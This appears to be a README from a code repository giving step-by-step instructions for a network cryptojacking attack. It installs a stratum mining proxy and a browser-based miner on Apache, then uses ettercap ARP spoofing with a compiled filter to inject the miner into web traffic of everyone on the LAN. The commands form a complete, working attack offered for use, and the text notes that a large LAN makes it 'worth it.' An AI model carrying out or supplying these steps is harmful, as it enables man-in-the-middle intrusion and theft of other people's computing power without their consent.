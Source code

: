 Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

git clone https://github.com/slush0/stratum-mining-proxy
git clone https://github.com/slush0/stratum
cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt
move lm to your apache directory.
cp lm /var/www/html -R
/etc/init.d/apache2 restart
etterfilter hashnet.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //
CHANGE hashnet.etterfilter file's ip in the perl script section to point to the webserver where you host the miner.

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
